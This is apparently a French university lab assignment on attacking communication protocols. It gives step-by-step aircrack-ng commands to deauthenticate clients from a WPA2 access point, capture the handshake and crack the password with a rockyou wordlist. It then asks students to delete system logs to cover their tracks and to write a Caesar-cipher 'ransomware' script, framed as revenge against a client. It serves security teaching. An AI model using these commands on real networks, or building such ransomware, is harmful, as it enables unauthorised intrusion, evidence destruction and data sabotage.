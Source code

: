 
# TP3

L'objectif de ce TP est d'éffectuer plusieurs attaques qui exploitent les failles connues des protocoles de communication.


## Hacker un point d'accès 
On fait appel à vous pour faire tomber le point d'accès d'une entreprise en menant une attaque de type \textbf{DOS}.

- Que signifie **DOS** ? Faîtes un schéma explicatif simple pour illustrer.
- Le point d'accès utilise WPA2 pour l'authentification et encrypter les communications. À quoi sert une PSK? Pour quelles raisons ?

Afin de réaliser la tâche qui vous ait demandé, installez la suite `aircrack-ng` et `wireshark`:

```
sudo apt update
sudo apt install aircrack-ng wireshark
```
- Maintenant, commencer par lister l'ensemble des interfaces réseaux de votre station/pc: `ipconfig` ou `ip a` 
- Démarrer airmon-ng sur votre interface wifi (ici on considère que l'interface se nomme `wlan1` ) : `airmon-ng start wlan1`

Cette commande crée une nouvelle interface en mode monitor ayant comme nom: **wlan1mon** suivant votre système. 
Vérifier l'existence de cette interface. Il se peut que votre carte wifi ne supporte pas le mode **moniteur/injecteur**.  Dans ce cas, il faudrait passer par une antenne WiFi.

- Lancer l'analyse des réseaux wifi avoisinant à l'aide de airodump-ng: `airodump-ng wlan1mon`
- À partir de l'analyse de airodump-ng, récupérer le BSSID (@MAC du point d'accès) et le numéro de canal de fréquence utilisé par le point d'accès cible. 
- Arreter la commande précedente et ouvrez deux terminaux.
- Sur le premier terminal, capturez uniquement les informations concernant le point d'accès cible et sauvegarder le tout dans un fichier nommé **log**:
`airodump-ng --bssid <bssid_cible> -c <numero_channel_cible> -w log wlan1mon`.
Essayez de vous connecter sur le point d'accès cible avec un autre équipement pour vérifier que vous arrivez à le détecter.
- Sur le deuxième terminal, forcez la déconnexion de toutes les personnes connectées au point d'accès ciblé pour forcer leurs reconnexion:
`aireplay-ng --deauth 0 -a <bssid> wlan1mon`
- Lorsque le *WPA_HANDSHAKE*, est correctement identifié sur le premier terminal, arretez la capture.
- Vous pouvez analyser le fichier **log-01.cap** avec wireshark afin de recherchez le handshake.
Pour cela, ouvrez le fichier .cap avec wireshark : `wireshark log-01.cap` et recherchez **eapol** (extensible authentication protocol over lan).
Si, un handshake a été capturé, vous devriez voir des handshakes echangés en quatre phase **Message 1/4, 2/4, ...**.
- Ouvrez le message **Message 2/4** par exemple, et allez dans le champ **802.1X Authentication** pour regarder le paramètre *WPA Key Data*.
- Maintenant, essayons de déchiffrez le mot de passe correspondant au Handshake capturée pour obtenir le mot de passe du réseau Wifi. 
Nous allons exploiter un mini-dictionaire de *131MB*: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`.
- Repassez vos carte wifi en mode normal et arretez tout monitoring. Puis exécuter: `aircrack-ng log-01.cap -w rockyou.txt` 
Si le mot de passe est contenu dans le fichier *rockyou.txt*, alors il sera découvert. Biensur il existe des dictionnaires plus robustes mais il est aussi possible de créer le votre.


## Couvrir ses traces 

Après votre aventure sur le point d'accès, il s'avère que vous avez laissé trop de traces sur votre station qui peuvent vous porter préjudice dans l'avenir. 
Il vous faut nettoyer vos traces en supprimant les logs de votre système.


- Pour vous, un fichier log représente quoi ?
- Où sont sauvegardés la plupart des logs dans une distribution Linux ? Et Windows ? Et MacOs ?
- Localisez et supprimer les logs qui concernent les démarrages de votre ordinateur, l'historique de vos commandes et les différentes connexions sur votre PC.
- Avez-vous Une méthode pour éviter de générer trop de logs sur votre station lors d'une attaque ? Décrivez là.

## Ransomware 

Finalement, l'entreprise ayant fait appel à vous se retourne contre vous et réalise une campagne de diffamation vous concernant.
Afin de leur donner une bonne leçon, vous voulez profitez d'un accès dérobé à leur service pour installer un ransomware personalisé.
Concrètement votre ransomware, doit être sous la forme d'un script (dans le langage de votre choix, $bash$ de préférence pour ne pas avoir à installé des dépendences chez la cible).
Votre ransomware entrera dans chaque dossier du repertoire et : 

    - Pour chaque dossier, changer le nom du dossier en appliquant l'algorithme de Cesar à trois décalages, donc un dossier avec le nom DJOB deviendra GMRE.
    - Pour chaque fichier, si le contenu est textuel, appliquer l'algorithme de Cesar à cinq décalages.

Par précaution pour vous-même, écrivez l'antidote de votre ransomware afin de vous prémunir en cas d'une attaque réflexive ou en marge de négotiation. 
Appelez vos deux programmes (virus et antidote) \\NOM\_PRENOM\_VIRUS.sh et NOM\_PRENOM\_CORR.sh où NOM et PRÉNOM correspondent à vos noms et prénoms.

D'après vous, quelles sont les principes de sécurités qu'il faut appliquer pour se prémunir de ce type d'attaques ? 


